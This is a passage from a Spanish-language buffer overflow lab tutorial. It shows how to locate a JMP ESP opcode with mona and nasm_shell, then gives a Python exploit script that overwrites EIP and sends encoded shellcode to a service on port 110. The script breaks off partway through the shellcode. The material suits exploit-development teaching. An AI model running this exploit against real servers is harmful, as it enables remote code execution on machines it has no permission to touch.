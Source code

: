 ![Untitled](../assets/Buffer-Overflow/Lab1/Buscar-OpCodes-Cargar-Shellcode/Untitled 1.png)

En este caso se usará el módulo “C:\windows\system32\SLMFC.DLL” y ahora la idea es buscar en esta DLL, la dirección de un OPCode en la que se aplique un JMP ESP para que el EIP apunte a esta dirección y de esta forma se aplique un salto al ESP.

Primero hay que conocer cuál es el OPCode correspondiente al JMP ESP, para esto se puede usar la siguiente herramienta de metasploit:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

# Y dentro del nasm escribir: jmp ESP
```

Esto proporcionará el OPCode del JMP ESP:

![Untitled](../assets/Buffer-Overflow/Lab1/Buscar-OpCodes-Cargar-Shellcode/Untitled 2.png)

Esto se representa de la siguiente forma: \xFF\XE4

Nota: No es necesario representar los OPCodes con lilttle endian.

Ahora se buscará la dirección de este OPCode, en el módulo seleccionado anteriormente, con el siguiente comando:

```bash
!mona find -s "\xFF\xE4" -m SLMFC.DLL

-s # Indica el OPCode
-m # Indica el módulo
```

Nota: Si no se encuentra el OPCode, se debe probar con otro módulo.

![Untitled](../assets/Buffer-Overflow/Lab1/Buscar-OpCodes-Cargar-Shellcode/Untitled 3.png)

En este caso se encontraron 19 resultados, la idea es tomar alguna de estas direcciones siempre y cuando no contengan los badchars encontrados anteriormente: “\x00\x0a\x0d”, por ejemplo, se tomará la dirección “0x5f4c4d13”.

Esta es la dirección del OPCode a la que deberá apuntar el EIP para que aplique el JMP ESP.

Esta dirección se debe representar en el script para que a la hora de enviar los datos, se sobrescriba el EIP con la dirección del OPCode, además se debe representar con el formato “little endian” ya que es una dirección.

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
```